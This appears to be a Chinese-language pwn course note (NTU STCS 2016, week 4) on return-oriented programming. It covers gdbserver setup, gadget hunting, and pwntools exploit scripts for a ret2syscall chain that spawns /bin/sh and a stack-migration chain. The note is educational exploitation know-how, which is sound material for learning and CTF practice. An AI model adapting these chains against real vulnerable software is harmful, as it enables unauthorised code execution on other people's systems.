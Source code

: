 ```yaml
---
title: NTU STCS 2016 0x02 ROP
date: 2020-08-25 16:46:26
cover: cover.jpg
description: week4 shellcode rop
tags:
- pwn
categories:
- NTU STCS 2016

---
```


# gdbserver

```bash
# in bash commandline
gdbserver 127.0.0.1:4000 ./binary #break在entrypoint
# in gdb commandline
gdb ./binary
$ target remote 127.0.0.1:4000
$ continue
# 搭配ncat
ncat -vc 'gdbserver 127.0.0.1:4000 .binary' -kl 127.0.0.1 5000
```

**trick**

使用gdbscript attach pid

```bash
# .gdbinit
set disassembly-flavor intel
define at
  shell echo attach $(pidof -s $arg0) > /tmp/foo.gdb
  source /tmp/foo.gdb
end
```

* * *

# rop

类型包括:ret2syscall ret2text ret2libc

## rop2syscall

- 找gadget控制syscall需要的regs(eax,ebx,ecx,edx)
- 需要int 80

**RopGadget**

```bash
#usage
RopGadget --binary ./binary
#int 80 ; ret
RopGadget --binary ./binary --opcode cd80c3
```

> PS:execve需要'/bin/sh'，且地址必须已知
> 用read吧需要的字符串输入至已知地址的buffer上

找可写page用于read(0,buf_addr,len)中的buf_addr
一般用bss最后一页即可

```bash
cat /proc/`pidof binary`/maps
readelf -a binary | less # 看Section Headers中的.bss
```

eg.

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'
p = process('./p1')
elf = ELF('./p1')
g = lambda x: next(elf.search(asm(x)))
pop_eax_ret = g('pop eax ; ret') # 0x080b8126
pop_ebx_ret = g('pop ebx ; ret') # 0x080481c9
pop_ecx_ret = g('pop ecx ; ret') # 0x080de849
pop_edx_ret = g('pop edx ; ret') # 0x0806edca
int_0x80_ret = g('int 0x80 ; ret')
buf = 0x080eb000 - 100
raw_input('@')
offset = 62
# read(0, '/bin/sh\x00', 100)
rop1 = [
 pop_eax_ret,
 3,
 pop_ebx_ret,
 0,
 pop_ecx_ret,
 buf,
 pop_edx_ret,
 100,
 int_0x80_ret,
]
# execve('/bin/sh\x00', 0, 0)
rop2 = [
 pop_eax_ret,
 0xb,
 pop_ebx_ret,
 buf,
 pop_ecx_ret,
 0,
 pop_edx_ret,
 0,
 int_0x80_ret
]
payload = 'A' * offset + ''.join(map(p32, rop1)) + ''.join(map(p32, rop2))
p.sendline(payload)
p.sendline('/bin/sh\x00')
p.interactive()
```

### 使用较长的gadget

![long gadget](w4-long-gadget.png)

**leave指令**

```x86asm
#leave
mov   esp, ebp
pop   ebp
```

**Trick: Stack Migration**

- 使用leave把栈放到已知位置
- 确定rop chain的位置时可以直接附加其他data
- 可以无限rop
- migrate后的空间要足够

```python
gadget1 = 0x8048898
# gadget1 has gets() and leave_ret
# 8048898:       50                      push   eax
# 8048899:       e8 e2 69 00 00          call   804f280 <_IO_gets>
# 804889e:       83 c4 10                add    esp,0x10
# 80488a1:       90                      nop
# 80488a2:       c9                      leave
# 80488a3:       c3                      ret
migration = [
    pop_ebp_ret,
    buf - 4,  #leave会pop ebp，所以要控制到buf-4位置
    pop_eax_ret,
    buf,
    gadget1,
]
rop = [
    pop_eax_ret,
    0xb,
    pop_ebx_ret,
    buf + 9 * 4,  #ropchain一共有9*4bytes
    pop_ecx_ret,
    0,
    pop_edx_ret,
    0,
    int_0x80_ret
]
payload1 = 'A' * offset + ''.join(map(p32, migration))
payload2 = ''.join(map(p32, rop)) + '/bin/sh\x00'
```
